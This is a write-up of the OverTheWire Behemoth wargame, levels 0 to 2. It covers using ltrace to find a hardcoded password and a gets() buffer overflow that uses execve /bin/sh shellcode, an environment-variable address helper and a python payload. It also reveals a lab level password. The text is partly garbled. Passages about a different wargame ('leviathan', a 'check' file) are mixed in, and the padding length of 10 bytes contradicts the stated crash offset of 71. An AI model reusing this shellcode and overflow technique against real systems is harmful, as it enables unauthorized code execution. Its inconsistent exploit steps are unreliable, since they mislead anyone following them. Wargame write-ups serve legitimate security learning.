 Overthewire Behemoth Wargame report

//Level 0 to Level 1

ssh behemoth.labs.overthewire.org -p 2221 -l behemoth0

Connect to the leviathan Level 0 server using SSH:
ssh behemoth.labs.overthewire.org -p 2221 -l behemoth0

Enter the password when prompted: leviathan0

Use the cd to /behemoth/. directory to find the data for the level. 
behemoth0@gibson:~$ ls -la
total 20
drwxr-xr-x  2 root root 4096 Apr 23 18:04 .
drwxr-xr-x 83 root root 4096 Apr 23 18:06 ..
-rw-r--r--  1 root root  220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root root 3771 Jan  6  2022 .bashrc
-rw-r--r--  1 root root  807 Jan  6  2022 .profile
behemoth0@gibson:~$ cd /behemoth/.
behemoth0@gibson:/behemoth$ ls -la
total 136
drwxr-xr-x  2 root      root       4096 Apr 23 18:04 .
drwxr-xr-x 25 root      root       4096 Apr 23 18:06 ..
-r-sr-x---  1 behemoth1 behemoth0 11648 Apr 23 18:04 behemoth0
-r-sr-x---  1 behemoth2 behemoth1 11256 Apr 23 18:04 behemoth1
-r-sr-x---  1 behemoth3 behemoth2 15112 Apr 23 18:04 behemoth2
-r-sr-x---  1 behemoth4 behemoth3 11300 Apr 23 18:04 behemoth3
-r-sr-x---  1 behemoth5 behemoth4 15108 Apr 23 18:04 behemoth4
-r-sr-x---  1 behemoth6 behemoth5 15392 Apr 23 18:04 behemoth5
-r-sr-x---  1 behemoth7 behemoth6 15132 Apr 23 18:04 behemoth6
-r-xr-x---  1 behemoth7 behemoth6 14916 Apr 23 18:04 behemoth6_reader
-r-sr-x---  1 behemoth8 behemoth7 11424 Apr 23 18:04 behemoth7
behemoth0@gibson:/behemoth$

When I execute the program it asks for a password. 

behemoth0@gibson:/behemoth$ ./behemoth0
Password: behemoth0
Access denied..
I run ltrace on the executable

behemoth0@gibson:/behemoth$ ltrace ./behemoth0
__libc_start_main(0x804921d, 1, 0xffffd5e4, 0 <unfinished ...>
printf("Password: ")                                          = 10
__isoc99_scanf(0x804a054, 0xffffd4df, 0x804a008, 0x804a020Password: coffee
)   = 1
strlen("OK^GSYBEX^Y")                                         = 11
strcmp("coffee", "eatmyshorts")                               = -1
puts("Access denied.."Access denied..
)                                       = 16
+++ exited (status 0) +++

I got the password comparison : strcmp("blah", "eatmyshorts")

behemoth0@gibson:/behemoth$ ./behemoth0
Password: eatmyshorts
Access granted..
$ cat /etc/behemoth_pass/behemoth1
8JHFW9vGru
$

//Level 1 to Level 2

ssh behemoth.labs.overthewire.org -p 2221 -l behemoth1

Connect to the leviathan Level 0 server using SSH:
ssh behemoth.labs.overthewire.org -p 2221 -l behemoth1

Enter the password when prompted: 8JHFW9vGru

The second level is similar to the first one but ltrace doesn't work here. 

behemoth1@gibson:/behemoth$ ltrace ./behemoth1
__libc_start_main(0x8049196, 1, 0xffffd5f4, 0 <unfinished ...>
printf("Password: ")                                                      = 10
gets(0xffffd4f5, 0, 0xf7c184be, 0xf7e2a054Password: pas
)                               = 0xffffd4f5
puts("Authentication failure.\nSorry."Authentication failure.
Sorry.
)                                   = 31
+++ exited (status 0) +++
behemoth1@gibson:/behemoth$`__libc_start_main(0x8049196, 1, 0xffffd5f4, 0 <unfinished ...>)`:



`__libc_start_main(0x8049196, 1, 0xffffd5f4, 0 <unfinished ...>)`:This is a call to the `__libc_start_main()` function, which is a C library function used to start a program. The arguments passed to the function include a memory address (`0x8049196`) which is the entry point of the program, and some other values related to the program's execution.

`printf("Password: ") = 10`:This line is calling the `printf()` function to print the string “Password: " to the console, and the return value of 10 indicates the number of characters printed.

`gets(0xffffd4f5, 0, 0xf7c184be, 0xf7e2a054Password: pas) = 0xffffd4f5`: This line is calling the ‘gets()`function to read user input from the console, and the address `0xffffd4f5` is where the input is being stored in memory. The input that was entered("pas") is also shown in the log. Note that ‘gets()` is considered to be a dangerous function because it does not limit the amount of input that can be read, which can lead to buffer overflow vulnerabilities.

`puts("Authentication failure.\nSorry."Authentication failure.\nSorry.) = 31`:This line is calling the `puts()` function to print the string "Authentication failure.\nSorry." to the console, and the return value of 31 indicates the number of characters printed.

I need to exploit the gets() function to overflow a buffer and spawn our shell. 
 

Overall, this code appears to be part of a program that prompts the user for a password, reads the user's input, and then outputs a message indicating whether the authentication was successful or not.
In this case, the "check" file is an executable that belongs to user leviathan2, and we have read and execute permissions. 

This code is a series of commands executed in a Linux terminal that demonstrate a simple buffer overflow attack. Here is a step-by-step guide:

1.  `tempdir=$(mktemp -d)`:`.  Create a temporary directory and store its path in the variable `$$tempdir`.
2. : cd $tempdir` Change the current working directory to the newly created temporary directory.
3. `vi getBufferSize.sh`: Open the text editor "vi" and create a new file named "getBufferSize.sh". This file will contain the code to would let us know when behemoth1 crashes to be used in the buffer overflow attack.
i=10
result='initial'

while [ ! -z "$result" ]
do
        i=$((i+1))
        result=$(python3 -c "print($i*'A')" | /behemoth/behemoth1)
        echo $result
done
echo "behemoth1 crashes at $i"

4. Save and exit the editor by typing `:wq` and pressing Enter. `chmod +x getBufferSize.sh`: Make the "getBufferSize.sh" file executable. And run it


Password: Authentication failure. Sorry.
Password: Authentication failure. Sorry.
...
Password: Authentication failure. Sorry.
Password: Authentication failure. Sorry.
Password: Authentication failure. Sorry.

behemoth1 crashes at, 71

5. We will use a shellcode to be used in the buffer overflow attack. In this case, the shellcode is:

export SHELLCODE=$(echo -e '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80')


6. Then I used this c program from “Jon Erickson - Hacking_ The Art of Exploitation” to get the memory address
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
 char *ptr;
 if(argc < 3) {
 printf("Usage: %s <environment var> <target program name>\n", argv[0]);
 exit(0);
 }
 ptr = getenv(argv[1]); /* Get env var location. */
 ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
 printf("%s will be at %p\n", argv[1], ptr);
}"
It simply gets the memory location of the environment variable using getenv(), which returns a pointer to a string containing the value of the environment variable. 

7. `./getenvaddr SHELLCODE /behemoth/behemoth1`: I compiled the c code and  used it to determine the memory address of the shellcode in the "behemoth1" program's memory space. The address is printed out as "SHELLCODE will be at 0xffffd716".
8. ``python3 -c "print('A' * 10 + '\x16\xd7\xff\xff')" | /behemoth/behemoth1`: Then I used a  python script that prints out 10 'A's followed by the address of the shellcode in little-endian byte order, and pipe the output to the "behemoth1" program. This will cause a buffer overflow and execute the shellcode, resulting in the program displaying the message "Password: Authentication failure. Sorry." 